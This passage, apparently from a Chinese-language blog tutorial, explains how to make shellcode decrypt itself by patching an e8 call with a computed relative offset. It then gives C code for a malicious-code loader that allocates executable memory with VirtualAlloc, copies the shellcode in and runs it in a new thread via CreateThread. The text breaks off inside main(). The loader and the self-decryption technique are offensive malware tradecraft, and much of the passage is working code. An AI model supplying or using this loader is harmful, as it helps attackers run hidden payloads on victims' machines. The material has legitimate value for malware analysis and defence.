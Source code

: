 简而言之就是对于`e8`这样的操作码，当在CPU是64位模式下的时候，操作数会被强制为64位的，由于我们现在是运行在32位的模式下，这点我们先不关注；`e8`后应该跟上一个32位的相对偏移，通过当前下一条指令的地址加上这个偏移，才是CPU在解析e8这条指令的时候，该跳转的函数地址。

#### 偏移计算方式

那么我们可以在调用shellcode的代码处下个断点，通过在反汇编里分别查看decrypt函数以及`e8
call`下一条指令的地址，进而算出这里我们需要的相对偏移，也就是`decrypt函数的地址-e8下一条指令的地址`：

![]()

![]()

![]()  
最后将算出的四字节偏移填充到`e8`后面就好了，比如我这里按照Windows的小端存储方式，最后的结果就应该是`e8 2b 10 06 00`：

![]()  
至此，我们完成了自己调用解密函数，对自己进行解密的完整代码编写。

### 恶意代码加载方式

#### 创建线程加载

动态涉及到了shellcode的加载方式。这里我选择使用创建线程的方式加载。  
1、创建 ThreadProc 函数

    
    
    DWORD WINAPI ThreadProc(LPVOID lpParameter)  
    {  
        //申请内存  
        if ((p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)  
        {  
            return 1;  
        }  
        //复制shellcode  
        if (!(memcpy(p, shellcode, sizeof(shellcode))))  
        {  
            return 1;  
        }  
      
        //函数指针赋值  
        CODE code = (CODE)p;  
        //调用  
        code();  
        return 0;  
    }  
    

2、 通过 `CreateThread`函数创建线程并执行线程函数`ThreadProc`。

    
    
    void main(int argc, char* argv[])  
    {         
        //创建一个新的线程    
        HANDLE hThread = ::CreateThread(NULL, 0, ThreadProc, NULL, 0, NULL);  
      